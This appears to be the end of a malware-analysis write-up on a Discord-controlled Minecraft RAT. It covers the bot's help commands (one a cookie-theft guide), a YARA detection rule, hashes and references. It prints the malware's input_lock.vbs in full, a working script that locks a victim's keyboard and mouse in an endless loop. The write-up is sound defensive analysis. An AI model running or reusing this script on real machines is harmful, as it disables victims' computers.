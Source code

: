 ## Extra Bits and Pieces
- There is a simulation mode that is toggled with the commands `!sim on` or `!sim off`. If simulation mode is enabled, none of the commands will work, and it instead sends back `Simulating [Command name]`. This is likely for testing and debugging the bot before running the commands.
- These are the help commands:
	- `commandhelp`, which gives a basic overview of each of the commands
	- `cookiehelp`, which gives a step-by-step guide on how to exploit stolen cookies
	- `logincookiehelp`, which explains how to stay secure if you suspect you've been a victim. An interesting thing to include in this program.

### YARA Detection Rule

```
rule MinecraftRat
{
    meta:
        description = "Detects known RAT based on Discord and ChatTriggers behavior"
        author = "DeTraced Security"
        reference = "https://detraced.org"
    strings:
        $url = "hst.sh/raw/"
        $regkey = "DisableShutdown"
        $vbscript = "{CAPSLOCK}"
        $powershell = "SetCursorPos"
    condition:
        all of them
}
```
{: file="rule.yara" }

### Hashes

| Algorithm | Hash Value                                                                                                                       |
| --------- | -------------------------------------------------------------------------------------------------------------------------------- |
| MD5       | df9a2e2d8dcb8c8599ed3d9b64a96c9c                                                                                                 |
| SHA-1     | 56e71cbcac7562ed0fc3ceadbfb79b5ab6ef230e                                                                                         |
| SHA-224   | 6ae3e04b0dfa8f6000a75cb479a347b0f473a4b33097ddedb2ab1293                                                                         |
| SHA-256   | f07018649beabceb8e67a13964e132f21638c1878c2259390320ca8fb4a145a6                                                                 |
| SHA-384   | 4f0eab97c9b329270a1517025d1c85fb591603fc45acca478ad3ec1e0e0c99301ea410949c072200d3334bd273aad9f1                                 |
| SHA-512   | 1f7c732e6903fabf985fafe90b628c4dcd5b96b92807b83420b8d1bab4de91267508e33ca0ad1402ba200159a2d8c411227fd9265a5ae3b779318f9928bce3b8 |


### input_lock.vbs
```vb
Set WShell = CreateObject("WScript.Shell")

While True
    WShell.SendKeys "{CAPSLOCK}"
    WShell.Run "powershell -Command \\"Add-Type -TypeDefinition 'using System; using System.Runtime.InteropServices; public class Mouse { [DllImport(\\\\\\"user32.dll\\\\\\")] public static extern bool SetCursorPos(int X, int Y); }'; [Mouse]::SetCursorPos(-999999, -999999)\\"", 0, False
    WScript.Sleep 1
Wend

```
{: file="input_lock.vbs" }


[^1]: https://en.wikipedia.org/wiki/Discord
[^2]: https://en.wikipedia.org/wiki/Discord#Developer_tools_and_bots
[^3]: https://docs.statbot.net/docs/guide/bot/
[^4]: https://yoyofumedia.com/rise-of-discord/
[^5]: https://www.techradar.com/news/this-nasty-trojan-uses-discord-as-a-command-and-control-server
[^6]: https://thehackernews.com/2024/01/ns-stealer-uses-discord-bots-to.html
[^7]: https://www.ibm.com/think/x-force/self-checkout-discord-c2
[^8]: https://github.com/Harry282/FunnyMap
[^9]: https://skyblockmods.net/mods/oringo-client
[^10]: https://www.clrn.org/what-to-do-if-someone-has-your-discord-token/
[^11]: https://www.howtogeek.com/321581/what-is-client-server-runtime-process-csrss.exe-and-why-is-it-running-on-my-pc/
[^12]: https://hst.sh/about.md
[^13]: https://chattriggers.com/slate/#introduction
[^14]: https://chattriggers.com/javadocs/-chat-triggers/com.chattriggers.ctjs.minecraft.libs/-file-lib/get-url-content.html
